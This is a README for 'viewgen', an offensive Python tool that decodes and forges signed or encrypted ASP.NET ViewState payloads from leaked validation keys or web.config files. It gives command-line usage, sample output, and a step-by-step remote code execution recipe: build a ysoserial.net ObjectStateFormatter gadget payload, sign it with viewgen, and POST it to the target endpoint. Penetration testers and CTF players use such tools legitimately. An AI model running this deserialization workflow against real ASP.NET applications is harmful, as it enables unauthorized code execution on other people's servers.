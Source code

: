 # viewgen

### ASP.NET ViewState Generator

**viewgen** is a ViewState tool capable of generating both signed and encrypted payloads with leaked validation keys or `web.config` files

---------------

**Requirements**: Python 3

### Installation

`pip3 install --upgrade -r requirements.txt` or `./install.sh`


---------------

### Usage
```bash
$ viewstate -h
usage: viewgen [-h] [-c WEBCONFIG] [-m MODIFIER] [--decode] [--guess]
               [--check] [--vkey VKEY] [--valg VALG] [--dkey DKEY]
               [--dalg DALG] [-e]
               payload

viewgen is a ViewState tool capable of generating both signed and encrypted
payloads with leaked validation keys or web.config files

positional arguments:
  payload               viewState payload (base 64 encoded)

optional arguments:
  -h, --help            show this help message and exit
  -c WEBCONFIG, --webconfig WEBCONFIG
                        automatically load keys and algorithms from a
                        web.config file
  -m MODIFIER, --modifier MODIFIER
                        VIEWSTATEGENERATOR value
  --decode              decode a ViewState payload
  --guess               guess signature and encryption mode for a given
                        payload
  --check               check if modifier and keys are correct for a given
                        payload
  --vkey VKEY           validation key
  --valg VALG           validation algorithm
  --dkey DKEY           decryption key
  --dalg DALG           decryption algorithm
  -e, --encrypted       ViewState is encrypted
```

---------------

### Examples

```bash
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[+] ViewState
(('1628925133', (None, [3, (['enctype', 'multipart/form-data'], None)])), None)
[+] Signature
7441f6eeb4fab5a5f30d6ba99908c08eb683b9e6
[+] Signature match

$ viewgen --webconfig web.config --modifier CA0B0334 "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRk"
r4zCP5CdSo5R9XmiEXvp1LHVzX1uICmY7oW2WD/gKS/Mt/s+NKXrMpScr4Gvrji7lFdHPOttFpi2x7YbmQjEjJ2NdBMuzeKFzIuno2DenYF8yVVKx5+LL7LYmI0CVcNQ+jH8VxvzVG58NQIJ/rSr6NqNMBahrVfAyVPgdL4Eke3Bq4XWk6BYW2Bht6ykSHF9szT8tG6KUKwf+T94hFUFNIXXkURptwQJEC/5AMkFXMU0VXDa

$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

$ viewgen --guess "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[!] ViewState is encrypted
[+] Algorithm candidates:
AES SHA1
DES/3DES SHA1
```

---------------

### Achieving Remote Code Execution

Leaking the `web.config` file or validation keys from ASP.NET apps results in RCE via ObjectStateFormatter deserialization if ViewStates are used.

**1 -** Generate a payload with [ysoserial.net](https://github.com/pwntester/ysoserial.net):

```bash
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "ping x.x.x.x"
```

**2 -** Grab a modifier (`__VIEWSTATEGENERATOR` value) from a given endpoint of the webapp

**3 -** Generate the signed/encrypted payload:

```bash
viewgen --webconfig web.config --modifier MODIFIER PAYLOAD
```

**4 -** Send a POST request with the generated ViewState to the same endpoint

**5 -** - Profit 🎉🎉

---------------

**Thanks**

- [@infosec_au](https://twitter.com/infosec_au)
- [@orange_8361](https://twitter.com/orange_8361)
- [@smiegles](https://twitter.com/smiegles)

**CTF Writeups**

- https://xz.aliyun.com/t/3019
- https://cyku.tw/ctf-hitcon-2018-why-so-serials/

